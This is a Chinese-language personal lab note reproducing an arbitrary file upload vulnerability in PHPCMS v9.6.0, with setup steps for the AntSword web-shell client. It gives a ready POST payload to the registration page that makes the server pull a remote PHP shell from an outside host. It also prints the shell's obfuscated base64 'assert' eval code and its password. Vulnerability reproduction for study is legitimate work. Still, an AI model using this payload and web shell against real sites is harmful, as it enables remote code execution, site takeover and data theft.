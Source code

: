 # PHPCMS v9.6.0版任意文件上传漏洞分析笔记

# 参考：

跟着松牛的代码审计调试一波。  
[PHPCMS最新版任意文件上传漏洞分析](https://mp.weixin.qq.com/s/Idbv27CCEAZzBFSPmYDmyQ)

---

# 安装：

phpcms安装：  
![](https://raw.githubusercontent.com/jerrychan807/imggg/master/006tKfTcgy1fi8vtqr4f8j30vg0p0whv.jpg)

中国蚁剑安装：

1.安装node.js  
下载安装[nodejs v4.0+](https://nodejs.org/)

[https://github.com/antoor/antSword/releases](https://github.com/antoor/antSword/releases)  
下载  
![](https://raw.githubusercontent.com/jerrychan807/imggg/master/006tKfTcgy1fi8wt526wdj317e0bsgmu.jpg)

解压，挂代理然后安装  
`$ cd antSword  
$ npm install`

在对应目录下启动：  
`npm start`

![](https://raw.githubusercontent.com/jerrychan807/imggg/master/006tKfTcgy1fi8wv9s2nfj31cs0r2tb1.jpg)

美滋滋~mac环境下终于不用再开虚拟机用中国菜刀.exe了 。

# 漏洞复现：

漏洞复现的办法是先打开注册页面，然后向注册页面POST如下payload：

`siteid=1&modelid=11&username=123456&password=123456&email=123456@qq.com&info[content]=<img src=http://files.hackersb.cn/webshell/antSword-shells/php_assert.php#.jpg>&dosubmit=1&protocol=`

然后就会报错并返回shell地址：

![](https://raw.githubusercontent.com/jerrychan807/imggg/master/006tKfTcgy1fi8vyz1051j31kw0fvdmx.jpg)

看看shell的密码:  
`<?php $ant=base64_decode("YXNzZXJ0");$ant($_POST['ant']);?>`

配置中国蚁剑：  
![](https://raw.githubusercontent.com/jerrychan807/imggg/master/006tKfTcgy1fi8xafur45j30oe0j8400.jpg)  
密码为ant
